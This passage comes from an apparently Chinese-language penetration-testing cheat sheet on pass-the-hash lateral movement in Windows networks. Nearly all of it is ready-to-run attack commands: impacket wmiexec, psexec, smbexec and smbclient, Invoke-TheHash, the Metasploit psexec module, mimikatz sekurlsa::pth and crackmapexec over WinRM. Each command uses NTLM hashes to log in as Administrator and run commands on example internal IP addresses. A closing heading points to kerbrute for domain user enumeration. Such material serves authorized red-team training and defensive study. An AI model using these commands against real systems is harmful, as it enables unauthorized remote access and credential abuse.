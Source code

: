         `wmiexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 Administrator@192.168.237.209`
    * Invoke-TheHash 脚本
        
        `Invoke-WMIExec -Target 192.168.237.209 -Username Administrator -Hash 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 -Command "whoami" -verbose`
* 445 端口的 SMB 服务
    * impacket 内网渗透套件的 psexec.exe
        
        `psexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 Administrator@192.168.237.209`
    * impacket 内网渗透套件的 mmcexec
        
        `mmcexec -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 Administrator@192.168.237.209`
    * impacket 内网渗透套件的 smbclient
        
        `smbclient.exe -hashes 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 Administrator@192.168.237.209`
    * impacket 内网渗透套件的 smbexec
        
        `python smbexec.py -hash esaad3b435b51404eeaad3b435b51404ee:0515322a55615056aaabb044a48463a4 rabbitmask@192.168.15.181`
        
        或者
        
        `python smbexec.py -hashes :0515322a55615056aaabb044a48463a4 rabbitmask@192.168.15.181`
    * Invoke-TheHash 脚本
        
        `Invoke-SMBExec -Target 192.168.237.209 -Username Administrator -Hash 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 -Command "whoami" -verbose`
    * Metasploit 中的 psexec
        
        ```
        use exploit/windows/smb/psexec
        set RHOST 192.168.237.209
        set SMBUser Administrator
        set SMBPass 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42
        exploit
        ```
    * mimikatz
        
        ```
        .\mimikatz
        sekurlsa:pth /user:目标机器用户名 /domain:目标机器IP /ntlm:本地获取的NTLM hash值
        ```
* 5985 端口 winrm 服务
    * crackmapexec
        
        `poetry run crackmapexec winrm 192.168.237.209 -u Administrator -H 00000000000000000000000000000000:e19ccf75ee54e06b06a5907af13cef42 -x whoami`

### 0x04 域用户枚举
在 [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases?_blank) 下载 kerbrute_windows_amd64.exe
